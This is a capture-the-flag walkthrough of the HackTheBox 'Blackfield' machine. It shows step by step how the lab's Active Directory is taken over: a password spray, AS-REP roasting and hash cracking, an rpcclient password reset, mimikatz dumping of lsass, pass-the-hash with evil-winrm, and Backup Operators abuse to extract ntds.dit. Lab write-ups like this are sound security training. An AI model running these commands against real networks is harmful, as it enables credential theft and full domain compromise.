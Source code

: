 ```yaml
---
title: "HTB: Blackfield"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blackfield](https://i.ibb.co/RSnBf45/Blackfield.png)

# Blackfield

## Initial Enumeration

We can see that a SMB share is open. If we connect to the smbshare with Guest:*blank* we can list the shares. The interesting share here is profiles$

```
smbclient Guest@10.10.10.192

# shares
ADMIN$
C$
forensic
IPC$
NETLOGON
profiles$
SYSVOL
```

profiles$ seems to give us a list of users, and since ldap and kerberos are both publically exposed, we can try seeing if any of these accounts don't have preauth set:


From here, we can use kerbrute to try a simple password spray against these usernames:

```
kerbrute passwordspray --dc 10.10.10.192 -d BLACKFIELD.local --user-as-pass userlist.txt -v
```

Only one account seems to exist, but it gives us a very interesting message:

```
2020/06/08 09:33:28 >  [!] support@BLACKFIELD.local:support - Got AS-REP (no pre-auth) but couldn't decrypt - bad password                               
```

It appears that this account is kerberoastable, but we'll need to add the domain "BLACKFIELD.local" to our /etc/hosts file first. After doing that, we can use impacket to get the krb5 hash, using a blank password:

```
GetNPUsers.py BLACKFIELD.local/support

$krb5asrep$23$support@BLACKFIELD.LOCAL:4d7b0ac10bb75f90b4b01004d2d679a1$d3cfdcd5f7aa151876e17385af9057c071fddcec5f4792d83a737f1b24d4b6cdd6d859fdc43c7d7c6e69b6900526f711cb23096ea32cad30fd4bfdf0d21076a08a4a81ae449dc8d59b26905f165b498c89a6d5820964171f4aa4adcc9f25d228758a4f7006451d6713359314e93feecebabcb62737197df1bb74a560f2727331c39015093a07721a58523908b366cd29e0792375dc7b91dff0ce11dc706d7650f56a159eb1085797b843e5186d11ed777f36a6f7d31b376939e2e02402aeb5e5e4b08f3920d1daa05f53b6b3a3f6ac5f54e708f2acfb80af59fab2bd91424ecc5d0d4e90a7eec7b6d96f3c1b17f96a280f4ce2cc
```

We can crack this with hashcat:

```
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force

#00^BlackKnight
```

We have valid credentials:

**support:#00^BlackKnight**

We now need to check what they work on. This user doesn't have Remote Management rights, so we can't use winrm to remote into the machine. The credentials do work on smb, but don't give us anything we didn't have with the basic guest account. We can get a list of AD users, with GetADUsers.py:

```
GetADUsers.py -dc-ip 10.10.10.192 BLACKFIELD.local/support
#00^BlackKnight
```

While enumerating what else we can do with these credentials, we can consider what else this user might do for other users. Since a support user might reset passwords, we'll see if we can reset any passwords using rpcclient:

```
rpcclient -U support //10.10.10.192

setuserinfo2 audit2020 23 'thisISmyPASSWORD!'
```

This appears to go through, and lets us log in to SMB with the audit2020 user! While exploring smb with this user, we see that we now have access to the forensic folder.

Looking through the forensic folder, we see that there's an lsass.zip file in memory_analysis, that we can pull hashes from. To do this, we can transfer the zip over to a Windows VM, start up mimikatz with an administrator cmd.exe console, and use the following commands:

```
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::LogonPasswords
```

We get a number of hashes, but the most interesting are the Administrator and svc_backup hashes.

```
         * Username : Administrator
         * Domain   : BLACKFIELD
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * SHA1     : db5c89a961644f0978b4b69a4d2a2239d7886368
         * DPAPI    : 240339f898b6ac4ce3f34702e4a89550


         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
```

We can use these hashes without cracking them with evil-winrm. The Administrator hash doesn't work, but svc_backup's hash still works:

```
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Looking at our privileges show us that we're in the Backup Operators group, since we have the following privileges:

```
...
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
...
```

We'll can use the exploit at the following link to grab ntds.dit and get the hashes for every user on the box:

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group

We'll use the following script named cmd, and put it in C:\Windows\temp\:

NOTE: We need to add a couple "spaces" after each line, or it'll cut off the characters at the end of each line.

cmd:
```
set context persistent nowriters 
add volume c: alias temp
create
expose %temp% z:
```

Now, we need to run diskshadow:

```
diskshadow.exe /s C:\windows\temp\cmd
```

We'll grab the two dlls from https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug and import them, then run the following to grab ntds.dit from our new Z: backup:

```
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit -Overwrite
```

We just need to grab SYSTEM to pull down the hashes:

```
reg save HKLM\SYSTEM system.save
```

Now, we can download these to our attacking machine using evil-winrm, and pull our the hashes with secretsdump.py from impacket:

```
secretsdump.py -system system.save -ntds ntds.dit LOCAL

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
...
```

We don't need to crack this, since we can just pass the hash with evil-winrm!

```
evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

Voila, we have root!

As a note, we could have also used psexec.py to get a SYSTEM level shell, but only the Administrator user can read root.txt

```
C:\Users\Administrator\Desktop>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
b'Access is denied.\r\n'
```

